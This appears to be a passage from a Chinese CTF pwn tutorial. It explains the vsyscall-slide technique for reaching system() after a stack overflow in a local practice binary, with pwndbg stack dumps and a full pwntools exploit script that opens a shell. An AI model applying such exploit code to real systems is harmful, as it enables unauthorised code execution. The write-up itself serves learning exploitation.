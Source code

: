 ![](https://cdn.nlark.com/yuque/0/2021/png/574026/1628577187562-07a0adda-ca0f-4203-b8b2-cbf236f930b0.png)

如下面代码框所示，我们是否可以利用栈上的地址将其进行变换来getshell？

```python
pwndbg> x/20gx 0x7fffffffe1b0
0x7fffffffe1b0: 0x6161616161616161      0x6161616161616161
0x7fffffffe1c0: 0x6161616161616161      0x6161616161616161
0x7fffffffe1d0: 0x6161616161616161      0x6161616161616161
0x7fffffffe1e0: 0x6161616161616161      0x00007ffff7a03bf7
    									#返回地址
0x7fffffffe1f0: 0x0000000000000001      0x00007fffffffe2c8
0x7fffffffe200: 0x0000000100008000      0x0000555555554a80
    									#main_start_addr
0x7fffffffe210: 0x0000000000000000      0x3a60c97119fb3eba
0x7fffffffe220: 0x0000555555554870      0x00007fffffffe2c0
0x7fffffffe230: 0x0000000000000000      0x0000000000000000
0x7fffffffe240: 0x6f359c244ffb3eba      0x6f358c9bfb453eba
pwndbg> 
```

答案是肯定的，这就要利用到vsyscall中的gadget了；之前说过vsyscall一共有3段汇编代码，但是其中的syscall和mov指令都不重要，我们主要利用其中的ret指令，可以在栈溢出后将栈布置成这样：

```python
pwndbg> x/20gx 0x7fffffffe1b0
0x7fffffffe1b0: 0x6161616161616161      0x6161616161616161
0x7fffffffe1c0: 0x6161616161616161      0x6161616161616161
0x7fffffffe1d0: 0x6161616161616161      0x6161616161616161
0x7fffffffe1e0: 0x6161616161616161      &vsyscall
    									#返回地址
0x7fffffffe1f0: &vsyscall       		0x00007fffffffe2c8
                               #&system:0x0000555555554aa8
0x7fffffffe200: 0x0000000100008000      0x0000555555554a80
    						   
0x7fffffffe210: 0x0000000000000000      0x3a60c97119fb3eba
0x7fffffffe220: 0x0000555555554870      0x00007fffffffe2c0
0x7fffffffe230: 0x0000000000000000      0x0000000000000000
0x7fffffffe240: 0x6f359c244ffb3eba      0x6f358c9bfb453eba
pwndbg> 
```

这里我们将返回地址改为了vsyscall，**ret（pop rip）后将从vsyscall的开头执行代码，因为vsyscall有ret，所以会再次重复执行vsyscall，直到执行system拿到shell（重复使用vsyscall其中一段代码即可）**，exp如下：

> vsyscall滑动：从vsyscall一路ret(滑动)到目标地址，相当于ROPgadget
>

```python
#coding=utf-8
from pwn import *
context.terminal = ['tmux','splitw','-h']
p=process("./magic_number")
vsyscall_start_addr=0xffffffffff600000
system_start_addr=0x0000555555554aa8
payload="a"*(0x38)+p64(vsyscall_start_addr)*2+p64(system_start_addr)
p.recvuntil('Your Input :\n')
#gdb.attach(proc.pidof(p)[0],gdbscript="b *$rebase(0xAE0)")
p.send(payload)
p.interactive()
```
